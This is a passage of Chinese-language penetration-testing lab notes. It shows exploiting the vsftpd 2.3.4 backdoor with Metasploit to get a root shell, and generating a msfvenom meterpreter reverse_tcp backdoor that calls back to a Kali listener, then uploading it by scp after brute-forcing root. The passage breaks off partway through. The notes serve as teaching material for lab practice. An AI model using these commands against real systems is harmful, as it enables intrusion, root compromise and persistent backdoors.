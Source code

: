 ```
whoami
```
## Exploit漏洞利用
### 漏洞利用VSFTPD
- vsftpd_234_backdoor（笑脸漏洞），允许攻击者任意用户登录，以root权限执行任意命令
  - 用户名以“笑脸”结尾，如xx:)、oo:)
  - 密码任意输入
  - 成功后开启6200端口，执行任意命令
```
msf6> search vsftpd
msf6> use 0
> set rhosts 192.168.10.143
> run
…………
whoami
ifconfig
```

## Linux后门
### Msfvenom后门（毒液）
#### 什么是Msfvenom
  - Msfvenom
    - Msfvenom是MSF框架配套的攻击载荷生成器
    - 可以用来生成木马程序，并在目标机上执行，在本地监听上线
  - 部分参数
    - -p：选择一个载荷
    - -f：生成的文件格式，elf(Linux下执行文件)exe（Windows下执行）
    - -l：host监听地址
    - -l：port监听端口
    - -o：输出文件名
    - -h：帮助
#### Msfvenom生成后门文件
  - 第一步：在kali生成后门文件
    ```
    ┌──(root㉿kali)-[~]
    └─# msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.10.224 lport=4444 -f elf -o shell

    ```
  - 第二步：确保开启linux靶机的root用户，并设置密码root（可以爆破以更改）
  - 第三步：在暴力破解成功的情况下，通过kal将后门文件发送到目标主机
    - 在kali中发送后门文件致目标靶机的/mnt/下
    ```
    ┌──(root㉿kali)-[~]
    └─# scp shell root@192.168.10.143:/mnt   
    ```
    - 暴力破解看看后门文件是否存在
    - 上传可能会报错，由于kali缺少配置导致的，按照以下步骤修复
    ```
    ┌──(root㉿kali)-[~]
    └─# mkdir .ssh          //创建 .ssh目录

